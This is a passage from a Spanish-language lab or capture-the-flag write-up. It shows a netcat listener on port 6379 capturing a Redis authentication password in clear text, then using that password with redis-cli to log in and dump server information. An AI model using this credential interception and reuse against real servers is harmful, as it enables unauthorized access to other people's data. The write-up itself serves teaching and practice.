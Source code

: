 - Ahora podemos ver la contraseña.

```bash
➜  ~ nc -nlvp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 55836
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

- Como tenemos la contraseña ya nos podemos autenticar.

```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:3445
run_id:4d12a99f866d54b324c8dfa89c18f417d25a6fe8
tcp_port:6379
uptime_in_seconds:16
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:5479871
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0

# Clients
connected_clients:1
client_recent_max_input_buffer:8
client_recent_max_output_buffer:0
blocked_clients:0
tracking_clients:0
clients_in_timeout_table:0

# Memory
used_memory:873328
used_memory_human:852.86K
used_memory_rss:15282176
used_memory_rss_human:14.57M
used_memory_peak:873328
used_memory_peak_human:852.86K
used_memory_peak_perc:100.17%
used_memory_overhead:830336
used_memory_startup:809832
used_memory_dataset:42992
used_memory_dataset_perc:67.71%
allocator_allocated:1287608
allocator_active:1605632
```